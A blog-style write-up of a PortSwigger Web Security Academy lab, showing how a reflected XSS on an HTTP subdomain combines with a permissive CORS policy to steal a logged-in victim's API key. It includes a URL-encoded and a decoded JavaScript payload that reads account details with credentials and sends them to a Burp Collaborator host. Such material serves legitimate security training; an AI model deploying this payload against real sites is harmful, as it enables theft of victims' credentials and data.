```yaml
---
title: Exploiting XSS via CORS trust relationships
description: Example test article that contains basic HTML elements for text formatting on the Web.
date: 2020-01-09
categories:
  - "Write-up"
tags:
  - "CORS"
  - "XSS"
  - "Burp Suite Academy"
---
```


Continuing the Burp Suite Academy series. Today, we will go through CORS exploitations exercises... 
<!--more-->

The web application is the same online store which allows a user to log-in, change his e-mail address and retrieve his API key. This time around, the server only trusts requests originating from subdomains of the app.

```http
GET /api/requestApiKey HTTP/1.1
Host: <instanceId>.web-security-academy.net
Origin: https://subdomain.<instanceId>.web-security-academy.net
Cookie: sessionid=...
```

Response: 
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.<instanceId>.web-security-academy.net
Access-Control-Allow-Credentials: true
Content-Type: application/json
X-XSS-Protection: 0
Connection: close
Content-Length: 89

{
  "username": "******",
  "email": "",
  "apikey": "********************************"
}
```

Further testing reveals that the server is configured to accept **any protocol** as long as the request comes from a subdomain of the main application `<instanceId>.web-security-academy.net`.

This version of the application has a new function which allows a user to check the remaining stock of a given item. The request looks like this:

```http
GET /?productId=1&storeId=1 HTTP/1.1
Host: stock.<instanceId>.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: ...
Accept: ...
Accept-Encoding: ...
Accept-Language: ...
Connection: close
```

The paramater `productId` is not validated nor sanitized, and is vulnerable to reflected Cross-site Scripting. 

```
HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=utf-8
Set-Cookie: session=5t8SM9hnfSxy91QpvWQ4o7rPMK8pg05H; Secure; HttpOnly
X-XSS-Protection: 0
Connection: close
Content-Length: 76

<h4>ERROR</h4>Invalid product ID: <script>alert("document.domain");</script>
```

Since the `stock.<...>` subdomain is running on `HTTP` (not `HTTPs`), the `session` cookies will never be transmitted to the browser. Therefore, our XSS will not be able to retrieve any of those. Right now, the impact of the vulnerability seems quite limited. Except, it is not !

We saw earlier that the server is configured to pass session cookies for any (cross-origin) request coming from a subdomain of the app, **regardless** of the protocol.

```
Access-Control-Allow-Origin: <protocol>://subdomain.<instanceId>.web-security-academy.net
Access-Control-Allow-Credentials: true
```

Therefore, it is possible for us to leverage this CORS (mis)configuration to bypass the limitations of Same Origin Policy (SOP) and retrieve the API key with a cross-origin request. Consider the following attack scenario:

1. Attacker hosts a malicious file in a server of his control
2. Attacker send a link to his exploit to Victim (who is already logged-in the main app)
3. Victim accesses the link and is redirected to `stock.<instanceId>.web-security-academy.net`
4. Victim's browser triggers the `rXSS` payload when rendering the page
5. Victim's browser requests his `apikey` on the main app. At this point, the `Origin` of this request will be a trusted subdomain with protocol `http`. Therefore the server CORS config will allow the request to go through
6. Victim's browser sends the `apikey` to the Attacker's server
7. Et voilà !
   
This the the payload I used to solve the corresponding exercise in BS Academy. It follows the aforementioned steps one-by-one. You can use the exploit server provided in the lab and conveniently force the Victim to visit it. In reality, the last part would require a little bit of social-engineering :-).

```html
<script>
let burpInstanceUrl = "<Your generated instance URL>";
/* We URL-encode our payload to prevent any hiccups when the browser will attempt render and execute the reflected XSS */
let xssPayload = "%3c%73%63%72%69%70%74%3e%6c%65%74%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%78%68%72%2e%6f%70%65%6e%28%22%47%45%54%22%2c%22%68%74%74%70%73%3a%2f%2f%61%63%65%35%31%66%63%39%31%65%65%32%36%32%65%33%38%30%62%32%35%31%38%65%30%30%62%63%30%30%64%31%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%74%72%75%65%29%3b%78%68%72%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%3d%74%72%75%65%3b%78%68%72%2e%6f%6e%6c%6f%61%64%3d%72%65%71%4c%69%73%74%65%6e%65%72%3b%78%68%72%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%7b%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%3a%2f%2f%74%64%61%6b%67%35%66%79%6b%78%62%38%72%6b%64%70%62%32%63%70%69%6b%61%6c%6a%63%70%36%64%76%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%2f%3f%22%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3c%2f%73%63%72%69%70%74%3e";
/* Step 2: Leverage the reflected XSS vulnerability in the subdomain to make an AJAX call and recover the victim's API key */
let trustedUrl = `http://stock.${burpInstanceUrl}.web-security-academy.net/?productId=${xssPayload}&storeId=1`;
/*  Step 1: Redirect the victim to the subdomain whitelisted in CORS configuration */
document.location = trustedUrl;
</script>
```

```html
<!-- Decoded xssPayload -->
<script>
  let xhr = new XMLHttpRequest();
  xhr.open(
    "GET",
    "https://${your_instance_url}.web-security-academy.net/accountDetails",
    true
  );
  xhr.withCredentials = true;
  xhr.onload = reqListener;
  xhr.send();
  function reqListener() {
    location =
      "http://subdomain.burpcollaborator.net/?" +
      this.responseText;
  }
</script>

```

Tags: #cors,#burp-suite-academy

